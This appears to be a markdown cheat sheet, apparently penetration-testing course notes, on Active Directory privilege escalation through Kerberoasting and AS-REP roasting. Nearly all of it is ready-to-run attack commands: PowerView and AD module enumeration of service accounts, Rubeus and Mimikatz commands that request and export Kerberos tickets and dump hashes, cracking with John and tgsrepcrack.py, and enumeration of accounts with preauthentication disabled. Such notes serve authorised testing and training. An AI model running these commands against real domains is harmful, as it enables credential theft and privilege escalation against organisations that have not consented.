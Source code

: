 ## PRivileges Escalation in AD


### Kerberoasting


```powershell
# Standard AD User. Get Domain Users SPN. Users that are for services
C:> . PowerView.ps1
C:> Get-DomainUser -SPN

# Using AD Module
C:> Get-ADUser -Filter {ServicePrincipalName ne ""$null ""} -Properties ServicePrincipalName
```
#### Using `Rubeus.exe`
```powershell
# Get kerberos stats
C:> Rubeus.exe /stats

# Use Rubeus to request a TGS for <user>
C:> Rubeus.exe kerberoast /user:<user> /simple /outfile:hashes.txt

# Accounts supporting only RC4 (Gives errors!)
C:> Rubeus.exe kerberoast /stats /rc4opsec
C:> Rubeus.exe kerberoast /user:<user> /simple /rc4opsec

# Kerberoast all possible accounts
C:> Rubeus.exe kerberoast /outfile:hashes.txt                  

# Crack with John
C:> john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```
#### Using Mimikatz
```powershell
C:> Add-Type -AssemblyNAme System.IdentityModel

C:> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Dump account hashes to a `.kirbi` fileasd@service_asdasd
C:> . .\Invoke-Mimikatz.ps1
C:> Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack using `tgsrepcrack.py`
C:> python.exe .\tgsrepcrack.py .\<wordlist>.txt .\<exported_file_from_mimikatz>.kirbi
```
### Targeted Kerberoasting AS-REPs
##### Enumerating accounts with Kerberos Preauth disabled
```powershell
# 
# PowerView
C:> Get-DomainUser -PreauthNotRequired -Verbose             
# AD Module
C:> Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
